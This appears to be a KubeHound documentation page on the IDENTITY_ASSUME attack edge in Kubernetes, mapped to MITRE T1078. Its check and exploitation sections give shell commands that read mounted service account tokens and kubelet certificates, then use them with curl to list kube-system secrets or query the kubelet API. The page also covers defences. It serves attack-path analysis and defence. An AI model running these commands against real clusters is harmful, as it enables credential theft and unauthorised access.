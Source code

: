 # IDENTITY_ASSUME

Represents the capacity to act as an [Identity](../vertices/IDENTITY.md) via ownership of a service account token, user PKI certificate, etc.

| Source                                    | Destination                           | MITRE                            |
| ----------------------------------------- | ------------------------------------- |----------------------------------|
| [Container](../vertices/CONTAINER.md), [Node](../vertices/NODE.md) | [Identity](../vertices/IDENTITY.md)  | [Valid Accounts, T1078](https://attack.mitre.org/techniques/T1078/) |

## Details

Authentication to the K8s API is performed via passing certificates, static tokens or OIDC tokens in the API request. This edge represents the ability to assume an identity using either acquired credentials (such as a service account token) or the intrinsic identity of a resource in K8s such as executing commands from inside a pod with a bound serviceaccount.

## Prerequisites

Control of execution within a container with a bound serviceaccount or access to a node file system.

## Checks

### Container 

Check for a mounted service account tokens or secrets:

```bash
ls -la /var/run/secrets/kubernetes.io/serviceaccount/
```

### Node 

Check the kubelet configuration:

```bash
cat $NODE_ROOT/etc/kubernetes/kubelet.conf 
```

This should contain the paths of the kubelet user certificates that we can steal to impersonate the node user:

```yaml
users:
- name: default-auth
  user:
    client-certificate: /var/lib/kubelet/pki/kubelet-client-current.pem
    client-key: /var/lib/kubelet/pki/kubelet-client-current.pem
```

Check the file(s) are accessible:

```bash
ls -la $NODE_ROOT/var/lib/kubelet/pki/kubelet-client-current.pem
```

## Exploitation

### Container 

Assuming a valid token is recovered from e.g a mounted service account a token is found it can be used to interact with the K8s API, to potentially access new resources:

```bash
KUBE_TOKEN=$(cat /var/run/secrets/kubernetes.io/serviceaccount/token)
curl -sSk -H "Authorization: Bearer $KUBE_TOKEN" \
      https://$KUBERNETES_SERVICE_HOST:$KUBERNETES_PORT_443_TCP_PORT/api/v1/namespaces/kube-system/secrets
```

### Node

The kubelet PKI certificates can be used to authenticate to either the kubelet or the K8s API:

```bash
 curl -k --cacert $NODE_ROOT/etc/kubernetes/pki/ca.crt --key $NODE_ROOT/var/lib/kubelet/pki/kubelet-client-current.pem --cert {$NODE_ROOT}/var/lib/kubelet/pki/kubelet-client-current.pem https://${NODE_IP}:10250/pods/ 
```

## Defences

### Monitoring

+ Monitor for installation and/or execution of kubectl within pods. This is anomalous activity but may be triggered by legitimate SRE or developer activities.
+ Interacting directly with the K8s API via non-standard tools e.g curl could be observed via the User-Agent field in audit logs. However, this is attacker controlled so should not be relied on.

### Implement security policies

Use a pod security policy or admission controller to prevent or limit the identities under which new pods can run.

## Calculation

+ [IdentityAssumeContainer](../../pkg/kubehound/graph/edge/identity_assume_container.go)
+ [IdentityAssumeNode](../../pkg/kubehound/graph/edge/identity_assume_node.go)

## References:  

+ [Official Kubernetes Documentation](https://kubernetes.io/docs/reference/access-authn-authz/authentication/#authentication-strategies)
+ [CURLing the Kubernetes API](https://nieldw.medium.com/curling-the-kubernetes-api-server-d7675cfc398c)
+ [Kubelet API Overview](https://www.deepnetwork.com/blog/2020/01/13/kubelet-api.html)
+ [Node AuthN/AuthZ](https://kubernetes.io/docs/reference/access-authn-authz/node/)